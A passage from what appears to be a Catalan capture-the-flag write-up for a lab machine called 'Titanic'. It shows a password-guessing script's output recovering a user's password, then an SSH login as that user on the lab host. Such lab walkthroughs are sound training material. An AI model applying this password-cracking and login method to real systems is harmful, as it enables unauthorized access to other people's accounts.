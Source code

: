 
El resultat d'executar l'script:

```
Comprovant contrasenya 5620: emogurl
Comprovant contrasenya 5621: callalily
Comprovant contrasenya 5622: baby21
Comprovant contrasenya 5623: 25282528

Found password: 25282528
```

Ara, ja ens podem connectar amb l'usuari developer per ssh ja que ja tenim la seva contrasenya:

```
┌──(kali㉿kali)-[~/Documentos/Titanic]
└─$ ssh developer@10.10.11.55
The authenticity of host '10.10.11.55 (10.10.11.55)' can't be established.
ED25519 key fingerprint is SHA256:Ku8uHj9CN/ZIoay7zsSmUDopgYkPmN7ugINXU0b2GEQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.55' (ED25519) to the list of known hosts.
developer@10.10.11.55's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon Apr 21 07:07:49 AM UTC 2025

  System load:  0.02              Processes:             227
  Usage of /:   67.7% of 6.79GB   Users logged in:       1
  Memory usage: 14%               IPv4 address for eth0: 10.10.11.55
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: in**     from 10.10.14.26
developer@titanic:~$ whoami
developer
```
